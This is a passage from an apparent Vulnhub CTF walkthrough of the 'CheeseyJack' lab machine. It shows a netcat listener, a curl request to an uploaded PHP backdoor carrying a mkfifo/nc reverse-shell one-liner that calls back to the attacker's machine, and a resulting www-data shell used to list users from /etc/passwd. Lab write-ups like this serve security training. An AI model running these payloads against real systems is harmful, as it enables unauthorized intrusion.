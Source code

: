 ```bash
┌──(emvee㉿kali)-[~]
└─$ sudo rlwrap nc -lvp 443         
[sudo] password for emvee: 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443

```
Now we should run our command for a reverse shell including the data url encoding so it is executed correctly on the target.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/CheeceyJack]
└─$ curl -v http://10.0.2.42/project_management/uploads/users/639322-backdoor.php --data-urlencode "cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.0.2.15 443 >/tmp/f"

*   Trying 10.0.2.42:80...
* Connected to 10.0.2.42 (10.0.2.42) port 80 (#0)
> POST /project_management/uploads/users/639322-backdoor.php HTTP/1.1
> Host: 10.0.2.42
> User-Agent: curl/7.87.0
> Accept: */*
> Content-Length: 115
> Content-Type: application/x-www-form-urlencoded
> 


```

## Initial access
We should check our netcat listener to see if the connection has been established.
```bash
┌──(emvee㉿kali)-[~]
└─$ sudo rlwrap nc -lvp 443         
[sudo] password for emvee: 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.0.2.42.
Ncat: Connection from 10.0.2.42:60638.
bash: cannot set terminal process group (797): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cheeseyjack:/var/www/html/project_management/uploads/users$ 

```
Let's find out who we are, what memberships we have and on what host we are working.
```bash
www-data@cheeseyjack:/var/www/html/project_management/uploads/users$ whoami;id;hostname
<roject_management/uploads/users$ whoami;id;hostname                 
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
cheeseyjack

```
We are running our commands as `www-data`, we should gain more privileges on our victim. It's about time to enumerate some users on the system.
```bash
www-data@cheeseyjack:/var/www/html/project_management/uploads/users$ awk -F: '($3>=1000)&&($1!="nobody"){print $1}' /etc/passwd
< '($3>=1000)&&($1!="nobody"){print $1}' /etc/passwd                 
ch33s3m4n
crab
www-data@cheeseyjack:/var/www/html/project_management/uploads/users$ ls /home
ls /home
ch33s3m4n
```